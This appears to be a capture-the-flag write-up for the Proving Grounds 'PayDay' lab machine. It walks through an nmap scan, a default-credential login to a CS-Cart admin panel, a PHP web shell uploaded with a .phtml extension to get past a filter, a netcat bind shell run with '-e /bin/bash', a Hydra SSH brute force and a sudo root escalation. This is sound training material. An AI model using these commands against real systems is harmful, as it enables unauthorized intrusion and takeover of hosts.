 ```yaml
---
layout: post
title: PG | PayDay
subtitle: Things normally go smooth on payday.
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 15:27 UTC
Nmap scan report for 192.168.182.39
Host is up (0.017s latency).
Not shown: 65527 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
| ssh-hostkey: 
|   1024 f3:6e:87:04:ea:2d:b3:60:ff:42:ad:26:67:17:94:d5 (DSA)
|_  2048 bb:03:ce:ed:13:f1:9a:9e:36:03:e2:af:ca:b2:35:04 (RSA)
80/tcp  open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
|_http-server-header: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
|_http-title: CS-Cart. Powerful PHP shopping cart software
110/tcp open  pop3        Dovecot pop3d
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
|_ssl-date: 2023-10-29T15:28:08+00:00; +7s from scanner time.
|_pop3-capabilities: STLS PIPELINING CAPA SASL UIDL RESP-CODES TOP
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
143/tcp open  imap        Dovecot imapd
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
|_ssl-date: 2023-10-29T15:28:08+00:00; +7s from scanner time.
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
|_imap-capabilities: IMAP4rev1 completed IDLE LOGIN-REFERRALS LITERAL+ THREAD=REFERENCES SASL-IR OK Capability LOGINDISABLEDA0001 STARTTLS NAMESPACE UNSELECT CHILDREN SORT MULTIAPPEND
V      Samba smbd 3.0.26a (workgroup: MSHOME)
993/tcp open  ssl/imap    Dovecot imapd
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
|_ssl-date: 2023-10-29T15:28:08+00:00; +8s from scanner time.
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
|_imap-capabilities: IMAP4rev1 IDLE LOGIN-REFERRALS LITERAL+ THREAD=REFERENCES SASL-IR OK completed Capability AUTH=PLAINA0001 NAMESPACE UNSELECT CHILDREN SORT MULTIAPPEND
995/tcp open  ssl/pop3    Dovecot pop3d
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
|_pop3-capabilities: SASL(PLAIN) PIPELINING CAPA USER UIDL RESP-CODES TOP
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
|_ssl-date: 2023-10-29T15:28:08+00:00; +8s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.26a)
|   Computer name: payday
|   NetBIOS computer name: 
|   Domain name: 
|   FQDN: payday
|_  System time: 2023-10-29T11:28:05-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 40m07s, deviation: 1h38m00s, median: 6s
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.40 seconds
~~~

## HTTP (TCP/80)

The web server on port 80 is hosting a CS-Cart webpage

![PayDay](/assets/img/PayDayPG(1).png)

I started enumeration by running a gobuster sub-directory scan and found a /admin.php page

![PayDay](/assets/img/PayDayPG(2).png)

I tried using the default credentials of admin:admin and it worked!

![PayDay](/assets/img/PayDayPG(3).png)

After navigating the admin panel I found a upload file option that saves the file locally on the target host and is displayed on the website via the 'Current path: /skins/'

At first I attempted to upload a PHP web shell file but the .php extension was blacklisted, I changed the shell extension to .phtml which is compatible with running php code

![PayDay](/assets/img/PayDayPG(7).png)

![PayDay](/assets/img/PayDayPG(4).png)

I then ran an 'id' command at http://192.168.182.39/skins/shell.phtml to test the web shell and it succeeded!

![PayDay](/assets/img/PayDayPG(5).png)

To get a stable shell I created a netcat listener on the target via the web shell

~~~shell
http://192.168.182.39/skins/shell.phtml?cmd=nc%20-nvlp%204444%20-e%20/bin/bash
~~~

Then connected to the listener via my attack host

~~~shell
┌──(kali㉿kali)-[~/Desktop/PayDay]
└─$ nc -nv 192.168.182.39 4444
(UNKNOWN) [192.168.182.39] 4444 (?) open
whoami
www-data
python -c 'import pty; pty.spawn("/bin/sh")'
$ 
~~~

I ran a bruteforce via SSH on the user account 'patrick' using Hydra and found valid credentials of patrick:patrick

The server uses legacy SSH key algorithms ssh-rsa and ssh-dss so you may need to enable [SSH Wide Compatibility Mode](https://www.youtube.com/watch?v=fKVLVNaVXF0) to run the Hydra brute force

~~~shell
┌──(kali㉿kali)-[~/Desktop/PayDay]
└─$ hydra -f -l patrick -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt ssh://192.168.182.39 -t 10
~~~

![PayDay](/assets/img/PayDayPG(6).png)

~~~shell
┌──(kali㉿kali)-[~/Desktop/PayDay]
└─$ ssh patrick@192.168.182.39                                                                                                                         
The authenticity of host '192.168.182.39 (192.168.182.39)' can't be established.
DSA key fingerprint is SHA256:UtI16p2JU9a/SuF1RZ3eUAYqCLBtgOewIPtIdm7kNNA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.182.39' (DSA) to the list of known hosts.
patrick@192.168.182.39's password: 
Linux payday 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
patrick@payday:~$ 

I checked what privileges the patrick user has and it had full sudo rights!

patrick@payday:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for patrick:
User patrick may run the following commands on this host:
    (ALL) ALL
~~~

I finished by upgrading the shell to root

~~~shell
patrick@payday:~$ sudo su
root@payday:/home/patrick# whoami
root
~~~